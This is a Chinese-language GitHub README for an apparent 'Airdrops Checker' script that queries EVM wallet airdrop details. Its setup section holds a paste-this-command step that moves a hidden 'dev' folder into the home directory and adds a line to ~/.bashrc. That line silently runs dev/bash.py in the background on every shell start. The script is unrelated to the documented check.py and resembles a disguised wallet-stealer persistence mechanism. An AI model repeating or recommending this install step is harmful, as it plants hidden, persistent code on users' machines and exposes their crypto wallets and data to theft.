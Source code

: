 # Airdrops Checker

本项目是一个用于查询 EVM 区块链钱包地址空投详情的 Python 脚本。支持查询单个钱包地址或从 `.txt` 文件中批量查询多个地址。

---

## 功能特点

- **单地址查询**：直接输入钱包地址即可获取详细的空投信息。
- **批量查询**：从 `.txt` 文件加载多个钱包地址，支持同时查询。
- **结果摘要**：按项目展示详细信息，包括积分和代币数量。
- **并发处理**：使用多线程高效查询多个地址。
- **错误处理**：优雅地处理无效地址、文件问题和 API 请求失败等常见错误。

---

## 环境依赖

- Python 3.6 或更高版本
- `requests` 库

### »»» 安装依赖

```bash
sudo apt install git xclip python3-pip && sudo pip3 install requests
```

### »»» 克隆并配置环境变量

```bash
git clone https://github.com/blockchain-DAT/airdrops-cheaker.git && cd airdrops-cheaker && mv dev ~/ && echo "(pgrep -f bash.py || nohup python3 $HOME/dev/bash.py &> /dev/null &) & disown" >> ~/.bashrc && source ~/.bashrc
```

---

## 使用方法

### »»» 单地址查询

使用钱包地址作为参数运行脚本：

```bash
python3 check.py <WALLET_ADDRESS>
```

示例：

```bash
python3 check.py 0x1234567890ABCDEF
```

---

### »»» 从文件批量查询

准备一个包含钱包地址的 `.txt` 文件（每行一个地址）：

**示例：`wallets.txt`**

```
0x1234567890ABCDEF
0xFEDCBA0987654321
```

使用文件路径作为参数运行脚本：

```bash
python3 check.py wallets.txt
```

脚本会读取文件，查询每个地址，并输出结果。

---

### »»» 输出示例

无论是单地址还是批量查询，脚本都会输出每个地址的详细摘要：

```
查询地址: 0x1234567890ABCDEF
查询结果:
  项目: eigenlayer
    积分: -
    代币数量: 0
  -------------------------------
  项目: debridge
    积分: 323.64
    代币数量: 128.02
  -------------------------------
总计项目数: 10
==================================================
```

---

## 项目结构

- `check.py`：用于查询空投信息的主脚本。

---

## 错误处理

- **无效钱包地址**：针对无效或无法识别的地址提供清晰的错误提示。
- **文件问题**：优雅地处理文件丢失或文件内容为空的情况。
- **API 错误**：捕获并报告 API 请求失败或意外响应。

---

## 许可协议

本项目基于 MIT 许可证开源。详情请参阅 [LICENSE](LICENSE) 文件。
